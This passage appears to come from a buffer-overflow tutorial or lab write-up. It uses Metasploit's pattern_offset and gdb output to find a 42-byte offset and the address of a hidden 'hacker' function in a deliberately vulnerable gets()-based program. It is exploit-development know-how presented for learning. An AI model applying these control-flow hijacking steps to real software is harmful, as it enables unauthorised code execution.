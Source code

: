 ```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41346241
[*] Exact match at offset 42
```

According to the source code, we know that there are 3 functions, they are main, inSecure and hacker.  Our aim here is to run hidden function ```hacker```.  So, we need to find out the address of the function of ```hacker```.

```bash
(gdb) info functions
```
```bash
(gdb) info functions
All defined functions:
 
Non-debugging symbols:
0x56556000  _init
0x56556030  printf@plt
0x56556040  gets@plt
0x56556050  puts@plt
0x56556060  __libc_start_main@plt
0x56556070  __cxa_finalize@plt
0x56556080  _start
0x565560c0  __x86.get_pc_thunk.bx
0x565560d0  deregister_tm_clones
0x56556110  register_tm_clones
0x56556160  __do_global_dtors_aux
0x565561b0  frame_dummy
0x565561b5  __x86.get_pc_thunk.dx
0x565561b9  hacker
0x565561e4  inSecure
0x56556233  main
0x5655624f  __x86.get_pc_thunk.ax
0x56556260  __libc_csu_init
0x565562c0  __libc_csu_fini
0x565562c4  _fini
```

```bash
(gdb) disass hacker
```
```bash
(gdb) disass hacker
Dump of assembler code for function hacker:
   0x565561b9 <+0>:     push   ebp
   0x565561ba <+1>:     mov    ebp,esp
   0x565561bc <+3>:     push   ebx
   0x565561bd <+4>:     sub    esp,0x4
   0x565561c0 <+7>:     call   0x5655624f <__x86.get_pc_thunk.ax>
   0x565561c5 <+12>:    add    eax,0x2e3b
   0x565561ca <+17>:    sub    esp,0xc
   0x565561cd <+20>:    lea    edx,[eax-0x1ff8]
   0x565561d3 <+26>:    push   edx
   0x565561d4 <+27>:    mov    ebx,eax
   0x565561d6 <+29>:    call   0x56556050 <puts@plt>
   0x565561db <+34>:    add    esp,0x10
   0x565561de <+37>:    nop
   0x565561df <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x565561e2 <+41>:    leave  
   0x565561e3 <+42>:    ret    
End of assembler dump.
(gdb)
```
